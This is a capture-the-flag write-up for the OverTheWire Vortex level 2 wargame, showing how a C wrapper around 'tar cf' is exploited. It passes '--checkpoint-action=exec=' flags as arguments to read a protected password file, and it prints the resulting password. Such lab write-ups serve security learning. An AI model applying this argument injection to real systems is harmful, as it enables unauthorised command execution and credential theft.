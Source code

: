 ## Vortex Level 2 → Level 3
### Tar Exploit

Problem page: <http://overthewire.org/wargames/vortex/vortex2.html>

Okay so this one is pretty straightforward, let's look at the code we need to exploit

```C
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
  char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
  execv(args[0], args);
}
```

This program just excetutes `tar cf /tmp/ownership.$$.tar` with whatever 3 additional command line arguments you pass into it, somebody could easily write a program like this with the intent that they would pass filenames as arguments, but we can just as easily pass in flags as arguments and drastically change the behaviour of the program.

Let's go through the [`tar` man page](https://linux.die.net/man/1/tar) to see what we have to work with.


```
--checkpoint[=NUMBER]
    display progress messages every NUMBERth record (default 10)

--checkpoint-action=ACTION
    execute ACTION on each checkpoint
```

Alright, so we can execute arbitrary commands every file by using these two flags, let's try it out. We'll make the first argument `/vortex/vortex2`, that way `tar` will have something to try to archive and run the checkpoint action on.

```console
vortex2@vortex:~$ /vortex/vortex2 /vortex/vortex2 "--checkpoint=1" "--checkpoint-action=exec=cat /etc/vortex_pass/vortex3"
/bin/tar: Removing leading `/' from member names
/bin/tar: UW1\377VS\350\305\376\377\377\201\303u\033: Cannot stat: No such file or directory
64ncXTvx#
/bin/tar: Exiting with failure status due to previous errors
```

Welp, `tar` didn't manage to make the archive, but it did print out the password, which was the more important output for us. Onto level 3!
